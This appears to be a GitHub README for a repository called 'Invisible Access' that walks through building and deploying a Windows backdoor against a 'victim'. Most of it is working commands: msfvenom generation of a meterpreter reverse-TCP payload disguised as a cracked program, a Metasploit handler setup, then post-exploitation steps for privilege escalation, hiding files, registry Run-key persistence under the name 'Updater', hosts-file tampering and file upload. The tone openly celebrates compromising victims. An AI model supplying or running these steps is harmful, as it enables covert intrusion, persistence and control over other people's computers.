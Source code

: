 # Invisible Access
This repository is part of the 3HK initiative. It provides an experimental framework for generating custom payloads and demonstrating basic backdoor mechanisms.
The goal is to illustrate core concepts of access persistence, payload delivery, and post-exploitation techniques.
Alongside the scripts, you’ll find explanatory notes and sample files that serve as learning references.
```
Use it wisely. Or don’t.
```
👹 3HK

## Static Ip
### Basic step

1.    Install VMware Workstation or any other virtual Machine 
2.    download kali-linux-2025-W22-installer-amd64 *(ISO)*
3.    Create your own Machine

### VMware Settings

   1. Player -> Manage -> Virtual Machine Settings
   2. Network Adapter  -> Bridged : Connected directly to the physical Network
   3. select *_Replicate physical network connection state_*

### Point Acces Mobile (متاصل من هاتف)
```
 sudo nano /etc/network/interfaces
```
	فالملف كتب :
```
# The loopback network interface
auto lo
iface lo inet loopback
```
   *Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
Add your nameserver, exemple if ur ip is 192.168.42.50 put 
```
nameserver 192.168.42.1
```
⚠️*Restart your pc*

### WIFI
```
 sudo nano /etc/network/interfaces
```
	Clear the previous two lines of *Point Acces Mobile (متاصل من هاتف)*
	add these lines and dont forget to change *XXX* to a number between 1 to 255.
```
auto eth0
iface eth0 inet static
    address 192.168.1.XXX
    netmask 255.255.255.0
    gateway 192.168.1.1
```
Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
Add these domains 
```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 1.1.1.1
```
⚠️*Restart your pc*

## Download Tools

**Metasploit**
```
sudo apt install metasploit-framework
```
**ps2exe**
	* run PowerShell as an administrator
```
Find-Module -Name PowerShellGet | Install-Module 
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Install-Module -Name ps2exe
```
## Command line

   Here u gonne find all command u need, we started with Created Payload
```
Cd Desktop
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={YOUR PORT 8080 or 4444 ...} -f exe -o {Name of your Payload}.exe
```
   **Compression of Payload**
```
tar -czvf {Compressed file name}.tar.gz {Name of your Payload}.exe
```
   **Create a Malware backdoor**

   * Download my file _Crack.ps1_
   * Edit the file to suit your Payload.

   **Convert file powershell (.Ps1) to Exe
   1. Run Powershell.
   2. Go to the file location.
   3. Command line (Change name *crack* to your)
```
Invoke-ps2exe .\crack.ps1 .\crack.exe -noConsole
```

### Metasploit
   Now with the moment awaited to hack the victim 🗡
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {YOUR IP}
set LPORT {YOUR PORT 8080 or 4444 ...}
run
```
This is the quiet before the breach *_msfconsole_* is loaded. *Payload* deployed,
Metasploit doesn’t knock — it walks in, one click, one exploit... and they’re mine 🗡
After they made the mistake :)
``` 
Sessions -i
```
   **Chose the sessions of your victime example 1**
```
sessions 1
getuid   | يعرض المستخدم الحالي
getsystem  | أخد صلاحية System
```
   **Hide files, change your file link if you change it**
```
execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Payload}.exe"

execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Backdoor crack}.exe"
```
   **Create the file in the registry**
```
reg setval -k "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" -v "Updater" -d "C:\\Users\\Administrator\\AppData\\Roaming\\{Name of your Payload}.exe"
```
   **Block Website**
```
execute -f cmd.exe -a "/c echo 127.0.0.1 {PUT LINK OF WEBSITE U WANT TO BLOCK}.com >> C:\\Windows\\System32\\drivers\\etc\\hosts"
```
   **Kill Programe (Stop Running)**
```
execute -f cmd.exe -a "/c taskkill /{PROGRAM NAME}.exe /F"
```
   **Upload the file to the victim's pc**
```
upload /home/xxxx/Desktop/YYY
```
   *xxxx : name of ur folder (link)
   *YYY  : name of file 
 
## Tutorial Video 
[![3HK- Rosetta Stone](https://user-images.githubusercontent.com/47686437/168548113-b3cd4206-3281-445b-b7c6-bc0a3251293d.png)](https://www.youtube.com/)







